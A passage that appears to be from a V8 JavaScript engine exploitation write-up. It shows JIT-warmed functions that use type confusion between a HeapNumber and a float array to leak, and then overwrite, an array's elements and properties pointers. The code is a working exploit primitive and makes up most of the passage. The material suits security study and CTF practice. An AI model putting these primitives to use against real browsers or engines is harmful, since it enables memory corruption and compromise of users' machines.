If we can confuse a pointer to a HeapNumber with a pointer to an array of floats, we could leak the `elements` and `properties` of it!

To do this, consider the following:
```javascript
function f(o){
    o.a *= 2
    o.c *= 3
    let t = o.b
    return ftoi(t)
}

x = {a:5.5, b:1.1, c:2.2, d:3.3}

for (var i = 0; i < 0x1000; ++i){
    f(x)
    f(x)
    f(x)
}

y = {a:5, b:[6.9], c:2}

float_elem = f(y) >> 32n
float_prop = f(y) & 0xffffffffn
```

First, `x.b` is a float (1.1), which really means it is a pointer to a HeapNumber within the `properties` pointer of `x`.

Next, `y` is created such that its `properties` will be laid out with the same offsets as `a` (at least until and including `y.b`). However, `y.b` is now an array of floats instead of a HeapNumber containing a single float.

`f()` has been JITted to return `o.b`, so it gets the pointer at `o.b`. It thinks that the value is a HeapNumber, so it returns 64 bits interpreted as an IEEE754 float starting from `+4`.

Now we have leaked the address of the `elements` and `properties` pointer of a float array using type confusion.

### type confusion 2
Just like how `addrof` and `fakeobj` are somewhat inverses, we can try to invert our first type confusion.

We should try to get a function to write values as a HeapNumber, but trick it into overwriting the `elements` and `properties` of an array.

Fortunately it is pretty easy:
```javascript
function g(o, val){
    o.a *= 2
    o.c *= 3

    o.b = itof(val)
}

x = {a:5.5, b:1.1, c:2.2, d:3.3}

for (var i = 0; i < 0x1000; ++i){
    g(x, 1n)
    g(x, 1n)
    g(x, 1n)
}
```
